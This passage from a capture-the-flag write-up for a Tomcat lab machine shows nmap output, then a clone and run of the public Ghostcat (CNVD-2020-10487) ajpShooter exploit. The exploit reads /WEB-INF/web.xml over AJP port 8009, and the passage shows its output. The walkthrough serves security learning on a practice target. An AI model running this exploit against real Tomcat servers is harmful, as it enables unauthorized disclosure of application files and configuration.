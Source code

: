    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
   # Nmap done at Wed Feb 26 18:06:58 2025 -- 1 IP address (1 host up) scanned in 23.97 seconds
</code></pre>

<br><br>

# 2 - AjpShooter:

**Cloning the repository:**
```
git clone https://github.com/00theway/Ghostcat-CNVD-2020-10487.git
```

<br>

**Using the ajpShooter Python script:**
```
python ajpShooter.py http://tomghost.thm:8080/ 8009 /WEB-INF/web.xml read
```
<br>

Result:
<pre><code style="font-size: 12px; color: rgb(60, 175, 31);">
       _    _         __ _                 _            
      /_\  (_)_ __   / _\ |__   ___   ___ | |_ ___ _ __ 
     //_\\ | | '_ \  \ \| '_ \ / _ \ / _ \| __/ _ \ '__|
    /  _  \| | |_) | _\ \ | | | (_) | (_) | ||  __/ |   
    \_/ \_// | .__/  \__/_| |_|\___/ \___/ \__\___|_|   
         |__/|_|                                        
                                                00theway,just for test
    

[&lt;] 200 200
[&lt;] Accept-Ranges: bytes
[&lt;] ETag: W/"1261-1583902632000"
[&lt;] Last-Modified: Wed, 11 Mar 2020 04:57:12 GMT
[&lt;] Content-Type: application/xml
[&lt;] Content-Length: 1261

&lt;?xml version="1.0" encoding="UTF-8"?&gt;
&lt;!--
 Licensed to the Apache Software Foundation (ASF) under one or more
  contributor license agreements.  See the NOTICE file distributed with
  this work for additional information regarding copyright ownership.
  The ASF licenses this file to You under the Apache License, Version 2.0
  (the "License"); you may not use this file except in compliance with
  the License.  You may obtain a copy of the License at

      http://www.apache.org/licenses/LICENSE-2.0

  Unless required by applicable law or agreed to in writing, software
  distributed under the License is distributed on an "AS IS" BASIS,
  WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
  See the License for the specific language governing permissions and
  limitations under the License.
--&gt;
&lt;web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee"
  xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
  xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee
                      http://xmlns.jcp.org/xml/ns/javaee/web-app_4_0.xsd"
  version="4.0"
  metadata-complete="true"&gt;
